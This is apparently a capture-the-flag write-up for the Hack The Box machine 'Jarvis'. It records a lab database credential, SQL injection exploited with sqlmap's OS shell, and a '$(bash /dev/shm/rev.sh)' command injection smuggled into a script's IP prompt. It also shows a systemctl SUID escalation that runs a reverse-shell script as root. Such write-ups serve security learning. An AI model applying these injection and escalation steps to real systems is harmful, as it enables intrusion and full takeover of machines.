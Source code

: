 # jarvis : `10.10.10.143`

**Table Of Contents:**

<!-- TOC -->

- [jarvis : `10.10.10.143`](#jarvis--101010143)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation`systemctl` has setuid set.](#privilege-escalationsystemctl-has-setuid-set)

<!-- /TOC -->

## Credentials


| Service | Username | Password |
| :-------: | :--------: | :--------: |
|  mysql  | DBadmin | imissyou |
|         |         |         |

---

## Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 80 (HTTP)

---

## FootHold

- On the homepage, `supersecurehotel.htb` discovered.
- The parameter `cod` on the room.php page was vulnerable to error based sql injection.
-  ![](assets/20210630_015616_image.png)
- Got shell from sqlmap using --os-shell feature which is quite a 🌶 feature. I like it personally.
- User `www-data` can run a simpler.py file with as pepper. Finding way to escalate the privilege from www-data to pepper.

---

## Lateral Movement

- Noticed that `systemctl` has setuid set. Will give a try once got hold of pepper user.

  ```bash
  User www-data may run the following commands on jarvis:   
  ```
- Using `$(bash /dev/shm/rev.sh)` to bypass all those forbidden characters.

  ```bash
  www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
  ***********************************************
       _                 _   
   ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
  / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
  \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
  |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                  |_|               |_|    |___/ 
                                  @ironhackers.es

  ***********************************************

  Enter an IP: $(bash /dev/shm/rev.sh)
  ```
- Got user `pepper` 💥

---

## Privilege Escalation`systemctl` has setuid set.

- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#suid) , got access to root.
  ```bash
  cd /tmp
  TF=`mktemp`.service
  echo '[Service] 
  Type=oneshot 
  ExecStart=/bin/bash /dev/shm/rev 
  [Install] 
  WantedBy=multi-user.target' > $TF
  /bin/systemctl link $TF
  /bin/systemctl enable --now $TF
  ```
